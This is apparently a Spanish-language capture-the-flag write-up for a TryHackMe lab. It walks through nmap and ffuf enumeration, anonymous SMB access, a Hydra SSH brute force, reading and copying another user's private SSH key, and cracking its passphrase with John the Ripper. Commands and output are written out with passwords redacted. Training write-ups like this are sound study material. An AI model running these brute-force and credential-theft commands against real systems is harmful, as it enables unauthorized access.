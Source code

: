 # Basic Pentesting — Writeup

**Fecha:** 20-09-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con `staff.txt` que sugiere el usuario `jan`. Se obtuvo acceso SSH a `jan` por fuerza bruta (wordlist `rockyou`), desde `jan` se recuperó la clave privada de `kay` y se crackeó su passphrase con `john`, permitiendo acceso final como `kay`.

---

## Enumeration (nmap)

**Command**

```bash
nmap -sV --open $IP
```

**Comment:** `-sV` detecta versiones de servicios. 

**Result**
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Summary**

* 22/tcp open  ssh (OpenSSH 8.2p1)
* 80/tcp open  http (Apache/2.4.41)
* 139/445/tcp open Samba (smbd)

---

## Web Enumeration (ffuf)

**Command**

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
```

**Comment:** `-t 300` define la cantidad de hilos; `-s` silencia headers extra; `-c` activa color en resultado.

**Result**
```bash
# directory-list-2.3-small.txt
#
# Attribution-Share Alike 3.0 License. To view a copy of this
#
# This work is licensed under the Creative Commons
# on at least 3 different hosts
development
```
**Relevant result**

* `/development`

---

## Smb — anonymous share

**Enumeration**

```bash
smbclient -L //$IP
```

**Result**
```bash
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
```

**Relevant Result**
* Share accesible: `Anonymous (Disk)`

**Connection**

```bash
smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
```
<details>
  <summary><i>staff.txt</i></summary>
  
```bash
  Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

</details>

**Comment:** Indicio de usuario `jan`. Revisar si el share expone archivos sensibles o rutas del filesystem.

---

## Foothold

**Brute Force SSH (user: jan)**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
```

**Comment:** `-l` especifica login; `-P` wordlist; `-t 4` tareas paralelas. Usar siempre con autorización.

**Result**
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-27 15:49:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://$IP/
[22][ssh] host: $IP   login: jan   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-27 16:04:48
```

**Private Key**

```bash
ssh jan@$IP
# introducir clave de usuario
jan@$IP cat /home/kay/.ssh/id_rsa
scp jan@$IP:/home/kay/.ssh/id_rsa ./
```

**Comment:** La clave privada `id_rsa` estaba accesible desde la cuenta `jan`.

---

## Lateral Movement

**Cracking passphrase**

```bash
ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Result**
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSWORD_REDACTED          (id_rsa)     
1g 0:00:00:00 DONE (2025-09-27 15:42) 10.00g/s 827360p/s 827360c/s 827360C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
**Login Kay**

```bash
ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
```

